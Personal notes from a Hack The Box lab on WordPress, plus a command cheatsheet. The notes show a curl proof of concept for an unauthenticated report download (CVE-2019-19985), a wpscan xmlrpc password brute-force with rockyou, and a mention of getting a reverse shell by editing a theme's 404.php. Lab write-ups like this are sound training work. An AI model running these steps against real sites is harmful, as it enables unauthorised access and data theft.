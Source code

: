 It worked!

![](Pasted%20image%2020250331160513.png)

![](Pasted%20image%2020250331170000.png)

Found this blog [PacketStorm](https://packetstorm.news/tos/aHR0cHM6Ly9wYWNrZXRzdG9ybS5uZXdzL2ZpbGVzL2N2ZS9DVkUtMjAxOS0xOTk4NS9wYWdlMS8gMTc0MzQzMzIzNCA3NTRlM2RmNDRkZTVkMDQ0MWM4MmY0ZjM5NDlmOGIyNzVkNzE4MzhlOTNhNzNkNmM4OWNmODAxZTY4Y2UxMjY1) with the PoC:

```shell
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```

It is version `1.1.1`.
The username that starts with `f` is `frank.mclane`

To get the shell I'll try to brute force the password of user `erika`:

```shell
wpscan --password-attack xmlrpc -t 20 -U erika -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[redacted]
[!] Valid Combinations Found:
 | Username: erika, Password: 010203
```

So I logged as `erika` in the blog and got a reverse shell by modifying the `404.php` of the main theme:

![](Pasted%20image%2020250331162431.png)

Got a shell :D

![](Pasted%20image%2020250331162504.png)

![](Pasted%20image%2020250331162535.png)

![](Pasted%20image%2020250331162601.png)



# HTB Cheatsheet

| **Command**                    | **Description**                                                                        |
| ------------------------------ | -------------------------------------------------------------------------------------- |
| `tree -L 1`                    | Lists contents of current directory                                                    |
| `curl -s -X GET <url>`         | Makes a GET request to a webserver and receives HTML source code of requested web page |
| `curl -I -X GET <url>`         | Prints the response header of the GET request from the requested web page              |
| `curl -X POST -d <data> <url>` | Sends a POST request with data to specific webserver                                   |
| `wpscan --url <url> -e ap`     | Scans specific WordPress application to enumerate plugins                              |
| `wpscan --url <url> -e u`      | Scans specific WordPress application to enumerate users                                |
| `msfconsole`                   | Starts Metasploit Framework                                                            |
| `html2text`                    | Converts redirected HTML output or files to easily readable output                     |